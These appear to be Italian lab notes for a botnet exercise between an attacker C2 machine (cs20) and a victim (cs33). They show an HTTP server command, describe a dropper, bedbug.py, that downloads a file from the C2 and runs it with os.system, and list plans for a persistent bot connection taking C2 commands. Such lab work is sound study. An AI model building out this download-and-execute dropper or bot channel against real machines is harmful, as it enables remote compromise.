

# Botnet Lab - Note

## Flusso attacco (overview)



## Macchine

| Ruolo | Machine | Note |
|-------|---------|------|
| Attaccante (C2) | cs20 | Kali Linux, serve file via HTTP |
| Vittima | cs33 | esegue bedbug.py |

## Step 1 - HTTP server su cs20 (completato)

Su cs20, dalla cartella con i file da servire:

```bash
python3 -m http.server 8080
```

File disponibile a:

```
http://[CS20]:8080/ciao.txt
```

## Step 2 - Download ed esecuzione (completato)

`bedbug.py` eseguito su cs33 (vittima):

1. Identifica OS con `os.popen("uname -a")`
2. Seleziona payload config (Linux/Windows)
3. Scarica il file via `urllib.request.urlretrieve`
4. Esegue il file con `os.system`

**Output reale su cs33:**

```
swagvict@cs33:~$ python3 bedbug.py
r:  ('ciao.txt', <http.client.HTTPMessage object at 0x726fb7ba7520>)
Payload downloaded successfully
halo
```

`ciao.txt` scaricato da cs20 ed eseguito correttamente. Contenuto stampato: `halo`.

## Prossimi step

- [ ] `bedbug.py` scarica ed esegue un vero bot agent (non solo ciao.txt)
- [ ] bot agent apre connessione persistente verso C2
- [ ] C2 invia comandi al bot
